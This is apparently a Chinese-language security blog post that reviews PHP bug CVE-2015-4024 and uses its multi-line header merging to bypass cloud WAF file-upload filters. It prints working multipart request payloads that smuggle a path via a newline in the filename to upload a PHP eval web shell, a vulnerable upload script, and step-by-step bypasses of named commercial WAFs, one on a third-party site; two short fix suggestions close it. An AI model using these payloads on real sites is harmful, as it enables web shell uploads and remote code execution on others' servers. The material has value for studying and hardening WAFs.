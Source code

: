 ```yaml
---
title: PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed
date: 2016-09-24 13:20:39
categories:
 - Hacker
tags:
 - Hacker
---
```

# 1.     背景介绍
今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

# 2.     绕过WAF的原理

根据PHP DOS漏洞原理，在multipart_buffer_headers函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

<!--more-->

```php
prev_len= strlen(prev_entry.value);

cur_len= strlen(line);

entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存

memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝

memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝

entry.value[cur_len+ prev_len] = '\0';

entry.key= estrdup(prev_entry.key);

zend_llist_remove_tail(header);//1次内存释放
```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP multipart_buffer_headers函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是”test3.jpg\nf/shell.php”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

## WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y

```

## 文件上传功能测试脚本: 

```php
<?php

         $name = $_FILES['file']['name'];

        echo $name;

        echo "\n";

        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);

        echo "upload success! ".$_FILES['file']['name'];

        echo "\n";

        echo strlen($_FILES['file']['name']);

?>

```

Payload能够正常上传

![1](/images/uploads/466b3248413178756f767230665a3667794f51507349663461316a6a.jpg)

# 3.     绕过WAF实战

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

## 3.1 绕过360网站卫士

### 步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![2](/images/uploads/467645324233766f3432454a56323463415150376545777066497639.jpg)

### 步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![3](/images/uploads/4675344f3055694851483263534131506b5f6437495750446241646f.jpg)

## 3.2 绕过知道创宇加速乐

### 步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![4](/images/uploads/4667426b36437846332d6458726c354858653353494441364a427849.jpg)

### 步骤二：成功绕过加速乐，上传shell，文件是syt.php。

![5](/images/uploads/46726f686e585341554e5047496f6661544968464d6e7251376f6f74.jpg)

## 3.3. 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

### 步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![6](/images/uploads/467368394b376c45625255696f5656672d6b6d43314d675032733077.jpg)

### 步骤二：成功绕过云加速

同上

# 4.     扩展—更多的工作

## 4.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。


```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y
```

## 4.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

# 5.     修复方案

## 5.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

## 5.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号双引号闭合。

# 6.     总结

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。

